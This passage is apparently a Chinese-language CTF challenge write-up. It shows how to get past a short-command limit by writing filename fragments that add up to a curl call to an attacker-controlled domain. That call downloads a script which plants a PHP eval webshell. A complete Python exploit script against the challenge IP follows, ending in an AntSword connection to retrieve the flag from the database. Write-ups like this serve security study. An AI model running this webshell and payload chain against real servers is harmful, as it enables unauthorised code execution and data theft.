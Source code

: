 这样sh m*后，会新建一个1文件。1文件内容是我们可控域名下的index.html.那么，我们只需要将index.html写成这样，就能在当前目录下构造一个一句话木马。(7d8fc845c741ce6a72fa592b394cf9f3是依据源码算出的哈希)

```
echo "<?php eval(\$_REQUEST['XXXX']);?>" > /www/sandbox/7d8fc845c741ce6a72fa592b394cf9f3/2.php
```

这样，我们就能在`http://52.199.204.34/sandbox/7d8fc845c741ce6a72fa592b394cf9f3/2.php`得到一个一句话木马。

Payload如下：


```Python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import requests


def GetShell():
    url = "http://52.199.204.34/?cmd="
    requests.get("http://52.199.204.34/?reset=1")

    fileNames = ["cur\\", "l\\ \\", "na\\", "nb\\", "nc\\","xx.\\","xy\\","z\\>1"]

    for fileName in fileNames:
        createFileUrl = url + ">" + fileName
        print createFileUrl
        requests.get(createFileUrl)

    getShellUrl=url+"ls>m\\"
    print getShellUrl
    requests.get(getShellUrl)
    getShellUrl = url + "sh m*"
    print getShellUrl
    requests.get(getShellUrl)

    getShellUrl = url + "sh 1"
    print getShellUrl
    requests.get(getShellUrl)

    response=requests.get("http://52.199.204.34/sandbox/7d8fc845c741ce6a72fa592b394cf9f3/2")
    print response.content



if __name__ == "__main__":
    GetShell()
```

然后，利用蚁剑连接,可以在home目录找到flag在数据库中。

![baby1](https://mo-xiaoxi.github.io/img/post/hitcon/baby1.png)

再连接数据库，获取数据即可。
